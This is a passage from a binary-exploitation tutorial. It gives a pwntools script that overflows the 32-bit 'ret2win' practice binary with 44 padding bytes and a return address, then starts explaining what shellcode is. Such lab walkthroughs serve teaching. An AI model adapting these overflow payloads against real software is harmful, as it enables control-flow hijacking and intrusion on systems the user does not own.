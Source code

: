 Now when you run the script again, it show us the flag.

![Desktop View](/assets/posts/pwn/image25.png){: width="500" height="500" }

### <font color="#A5C9FF">32 Bit Solution</font>

Now, as an exercise, please solve the `32-bit` version yourself. If you get stuck, the solution is shown below:

```python
from pwn import *

context.binary = binary = ELF("./ret2win32")

io = process()

ret2win_address = binary.symbols.ret2win

payload = flat(b'A' * 44, ret2win_address)

io.sendline(payload)

io.interactive()
```

---

## <center> Shellcode Basics

Shellcode is a small piece of code typically written in machine language that `exploits` software vulnerabilities to execute on a `target machine`. It is called `shellcode` because its common purpose is to give the attacker a command-line shell on the target system. However, any code that achieves similar objectives can be referred to as shellcode.
